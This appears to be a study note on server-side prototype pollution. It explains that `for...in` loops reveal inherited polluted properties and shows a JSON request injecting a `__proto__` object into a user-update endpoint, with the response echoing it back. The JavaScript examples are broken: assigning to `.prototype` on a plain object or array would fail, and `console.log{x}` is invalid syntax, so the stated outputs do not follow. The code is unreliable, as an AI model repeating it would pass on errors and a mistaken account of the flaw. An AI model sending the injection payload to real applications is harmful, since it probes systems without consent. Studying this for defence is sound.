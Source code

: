 # Polluted Property Reflection

A Javascript's `for...in` loop iterates all over the object's properties including the ones that have been polluted. Example:

```js
const ObjectSaya = {a: 4, b: 2};

// Polluted the property
ObjectSaya.prototype.foo = 'bar';

// Check the object doesn't have its own 'foo' property, only inherited
ObjectSaya.hasOwnProperty('foo');  // False

// List names of properties from the object
for(const x in ObjectSaya){
	console.log{x}
}

// Output: a, b, foo
```

This also applies to arrays, when looping over indexes

```js
const ArraySaya = ['a', 'b'];

// Polluted the property
ArraySaya.prototype.foo = 'bar';

// List indexes from the array
for (const x in ArraySaya){
	console.log{x}
}

// Output: 0, 1, foo
```

***

Either way, if an application returns properties in a response, especially in a POST or PUT request that submits JSON data, they can be prime targets for Server-Side Prototype Pollution. In this case, we are polluting the global `Object.prototype`

```json
POST /user/update HTTP/1.1 
Host: vulnerable-website.com 
... 
{ 
	"user":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"__proto__":{ 
		"foo":"bar" 
	} 
}
```

If the website is vulnerable, the injected property would appear in the response:

```json
HTTP/1.1 200 OK 
... 
{ 
	"username":"wiener", 
	"firstName":"Peter", 
	"lastName":"Wiener", 
	"foo":"bar" 
}
```
